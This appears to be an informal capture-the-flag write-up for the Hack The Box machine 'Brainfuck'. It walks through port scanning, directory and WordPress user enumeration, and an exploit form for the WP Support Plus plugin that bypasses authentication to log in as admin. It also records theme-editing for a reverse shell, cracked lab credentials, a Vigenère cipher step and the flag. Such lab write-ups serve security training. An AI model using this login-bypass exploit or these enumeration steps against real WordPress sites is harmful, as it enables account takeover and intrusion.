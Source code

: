 
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
110/tcp open  pop3
143/tcp open  imap
443/tcp open  https


![](20230524132206.png)

gobuster dir --url https://10.129.228.97 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k 

ssl information is required as usially htb deals with port 80

![](20230524140511.png)

wpscan on wordpress enumeration

wpscan --url https://brainfuck.htb --disable-tls-checks

wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u


[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```
searchsploit wp support plus
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsiv | php/webapps/34589.txt
WordPress Plugin WP Support Plus Responsiv | php/webapps/40939.txt
WordPress Plugin WP Support Plus Responsiv | php/webapps/41006.txt
```

searchsploit -x 41006.txt

```
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>

```

we become admin using the exploit

![](20230524145209.png)

in wordpress file reverse connect can be got using appearancesthemes and then cahnge template to whatever

![](20230524212621.png)

we  got password
orestis:kHGuERB29DNiNE
![](20230524212343.png)


websehll did not work so trying to configure a thunderbird client

able to configure

![](20230524214608.png)

```
Hi there, your credentials for our "secret" forum are below 😄

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
```

using this and logging in I get

![](20230524214904.png)

its using a one time pad

https://rumkin.com/tools/cipher/ for ciphers

its a keyed vigenere with key from th emessage itself

![](20230527055851.png)

wegot a key to enter from

bu not the passphrase we need to  crack the key for the passphrase

3poulakia!

this is the ssh password so we got shell

![](20230527060829.png)

2c11cfbc5b959f73ac15a3310bd097c9

apparently not much was revealed in iipsec video after that












### lesson learnt

1. check the  ecertificate if ssl is there
2. ciphers can beone time pad. https://rumkin.com/tools/cipher/ for cipher reated help